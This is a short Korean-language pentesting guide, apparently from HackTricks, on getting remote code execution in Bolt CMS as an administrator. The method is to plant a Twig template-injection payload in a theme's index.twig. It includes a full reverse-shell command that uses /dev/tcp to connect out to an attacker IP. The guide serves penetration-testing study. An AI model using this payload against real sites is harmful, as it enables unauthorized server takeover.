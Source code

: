 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

관리자로 로그인한 후 (/bot로 이동하여 로그인 프롬프트에 접근), Bolt CMS에서 RCE를 얻을 수 있습니다:

- `Configuration` -> `View Configuration` -> `Main Configuration`을 선택하거나 URL 경로 `/bolt/file-edit/config?file=/bolt/config.yaml`로 이동합니다.
- 테마의 값을 확인합니다.

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates`를 선택합니다.
- 이전 단계에서 찾은 테마 기본값(`base-2021`인 경우)을 선택하고 `index.twig`를 선택합니다.
- 제 경우에는 URL 경로 /bolt/file-edit/themes?file=/base-2021/index.twig에 있습니다.
- 이 파일에 [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php)를 통해 페이로드를 설정합니다, 예: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 그리고 변경 사항을 저장합니다.

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache`에서 캐시를 지웁니다.
- 일반 사용자로 다시 페이지에 접근하면 페이로드가 실행되어야 합니다.

{{#include ../../banners/hacktricks-training.md}}
